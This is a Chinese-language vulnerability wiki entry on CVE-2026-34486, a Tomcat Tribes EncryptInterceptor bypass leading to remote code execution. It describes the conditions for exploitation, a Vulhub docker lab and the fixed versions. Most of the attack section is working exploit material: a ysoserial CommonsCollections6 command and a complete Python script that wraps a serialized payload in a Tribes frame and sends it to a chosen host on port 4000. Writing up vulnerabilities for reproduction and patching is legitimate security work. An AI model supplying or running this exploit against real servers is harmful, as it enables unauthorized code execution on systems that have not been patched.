


# Apache Tomcat Tribes EncryptInterceptor 绕过远程代码执行漏洞 CVE-2026-34486

## 漏洞描述

Apache Tomcat 是一个广泛使用的开源 Java Servlet、JavaServer Pages、Java Expression Language 和 WebSocket 技术的实现。

Tomcat Tribes 是 Tomcat 推出的集群框架，启用了 Tribes 的多个 Tomcat 实例之间会通过 Java 序列化机制交换消息；当配置了 `EncryptInterceptor` 后，这些序列化字节流会被加密传输。正常情况下，接收消息的 Tomcat 实例只有在解密成功后才会对消息进行反序列化，但官方在修复 CVE-2026-29146（Tribes EncryptInterceptor Padding Oracle 漏洞）时引入了一个 Bug，导致消息解密失败时后续处理流程没有被中止，字节流无论解密是否成功都会被继续转发给下层处理器，进而被反序列化执行。攻击者只需具备 Tribes 接收端口（默认 4000）的网络访问权限，即可向其发送包含 Java 反序列化 payload 的未加密消息，完全绕过 EncryptInterceptor 的加密保护，实现远程代码执行。该漏洞影响 Apache Tomcat 9.0.116、10.1.53 和 11.0.20 版本。

满足以下条件的 Tomcat 才可以被利用：

- `<Cluster>` 在 `server.xml` 中显式启用
- `<Cluster>` 的 Channel 中配置了 `EncryptInterceptor`（未配置此拦截器的 Tribes 本就直接接受未加密消息，不属于该 CVE 的利用范畴）
- Tribes 接收端口对攻击者网络可达（默认监听在 4000 端口）
- classpath 中存在可用的反序列化利用链（如 Apache Commons Collections）

参考链接：

- https://www.cyberkendra.com/2026/04/apache-tomcats-security-fix-opened-door.html
- https://www.herodevs.com/vulnerability-directory/cve-2026-34486
- https://github.com/advisories/GHSA-69r9-qgr7-g2wj

## 环境搭建

Vulhub 执行如下命令启动存在漏洞的 Tomcat 9.0.116 服务器，已启用 Tribes 集群和 EncryptInterceptor：

```
docker compose up -d
```

服务启动后，访问 `http://your-ip:8080` 即可看到 Tomcat 默认页面。Tribes 接收端口监听在 4000 端口。




## 漏洞复现

该漏洞利用 EncryptInterceptor 的绕过缺陷，向 Tribes 接收端口发送未加密的 Java 反序列化 payload。由于漏洞容器中 classpath 已包含 `commons-collections 3.2.1`，可以使用任意 Apache Commons Collections 反序列化链来执行任意系统命令。

首先，使用 [ysoserial](https://github.com/frohoff/ysoserial)（或其他等效工具）生成序列化 payload：

```
java -jar ysoserial.jar CommonsCollections6 "touch /tmp/awesome_poc" > payload.ser
```

然后使用提供的 `poc.py` 脚本将 payload 封装进 Tribes 数据帧，发送到接收端口：

```
python poc.py -t your-ip -p 4000 -f payload.ser
```


然后，通过检查容器内的文件来验证命令已被执行：

```
docker compose exec tomcat ls -la /tmp/
```




## 漏洞 POC

```python
#!/usr/bin/env python3
import argparse
import io
import socket
import struct
import sys
import time

HEADER = b"FLT2002"
FOOTER = b"TLF2003"
MEMBER_BEGIN = b"TRIBES-B\x01\x00"
MEMBER_END = b"TRIBES-E\x01\x00"

def build_member():
    p = io.BytesIO()
    p.write(struct.pack(">q", 0))
    p.write(struct.pack(">I", 4001))
    p.write(struct.pack(">I", 0))
    p.write(struct.pack(">I", 0))
    host = socket.inet_aton("127.0.0.1")
    p.write(struct.pack(">B", len(host)))
    p.write(host)
    p.write(struct.pack(">I", 0))
    p.write(struct.pack(">I", 0))
    p.write(b"\x00" * 16)
    p.write(struct.pack(">I", 0))
    body = p.getvalue()
    return MEMBER_BEGIN + struct.pack(">I", len(body)) + body + MEMBER_END

def build_packet(payload: bytes) -> bytes:
    b = io.BytesIO()
    b.write(struct.pack(">I", 0x0008))
    b.write(struct.pack(">Q", int(time.time() * 1000)))
    uuid = b"\x01" * 16
    b.write(struct.pack(">I", len(uuid)))
    b.write(uuid)
    member = build_member()
    b.write(struct.pack(">I", len(member)))
    b.write(member)
    b.write(struct.pack(">I", len(payload)))
    b.write(payload)
    data = b.getvalue()
    return HEADER + struct.pack(">I", len(data)) + data + FOOTER

def send(host: str, port: int, packet: bytes, timeout: float) -> None:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
        s.settimeout(timeout)
        s.connect((host, port))
        s.sendall(packet)
        s.shutdown(socket.SHUT_WR)
        try:
            s.recv(1)
        except (socket.timeout, OSError):
            pass

def parse_args():
    parser = argparse.ArgumentParser(
        description="CVE-2026-34486 - Tomcat Tribes EncryptInterceptor Bypass RCE",
        epilog=(
            "Generate a serialized payload first, e.g.:\n"
            "  java -jar ysoserial.jar CommonsCollections6 'touch /tmp/success' > payload.ser\n"
            "Then send it:\n"
            "  %(prog)s -t 127.0.0.1 -p 4000 -f payload.ser"
        ),
        formatter_class=argparse.RawDescriptionHelpFormatter,
    )
    parser.add_argument("-t", "--target", required=True, help="Tomcat Tribes receiver host")
    parser.add_argument("-p", "--port", type=int, default=4000, help="Tribes receiver port (default: 4000)")
    parser.add_argument(
        "-f", "--file", required=True,
        help="Path to a Java serialized payload file (e.g. generated by ysoserial)",
    )
    parser.add_argument("--timeout", type=float, default=3.0, help="Socket timeout in seconds (default: 3)")
    return parser.parse_args()

def main():
    args = parse_args()
    try:
        with open(args.file, "rb") as f:
            payload = f.read()
    except OSError as e:
        print(f"[!] Failed to read payload file: {e}")
        sys.exit(1)

    print(f"[*] CVE-2026-34486 Tomcat Tribes EncryptInterceptor Bypass RCE")
    print(f"[*] Target: {args.target}:{args.port}  Payload file: {args.file}")
    packet = build_packet(payload)
    print(f"[+] Payload: {len(payload)}B  Packet: {len(packet)}B")

    try:
        send(args.target, args.port, packet, args.timeout)
    except OSError as e:
        print(f"[!] Send failed: {e}")
        sys.exit(1)
    print("[+] Sent!")

if __name__ == "__main__":
    main()
```

## 漏洞修复

官方已经发布补丁，请更新至最新版本：

- Apache Tomcat 11.0.21
- Apache Tomcat 10.1.54
- Apache Tomcat 9.0.117

下载地址：

- https://tomcat.apache.org/download-11.cgi
- https://tomcat.apache.org/download-10.cgi
- https://tomcat.apache.org/download-90.cgi


---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
